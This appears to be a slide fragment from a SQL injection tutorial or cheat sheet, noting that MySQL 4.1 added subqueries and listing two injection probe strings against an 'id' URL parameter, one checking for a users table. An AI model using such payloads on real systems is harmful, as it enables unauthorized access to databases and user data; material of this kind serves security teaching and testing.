

# Sub Queries
Sub-Query is added in MySQL 4.1.

?id=-1337 AND (SELECT 1)=1
?id=-1337 AND EXISTS (SELECT * FROM [users])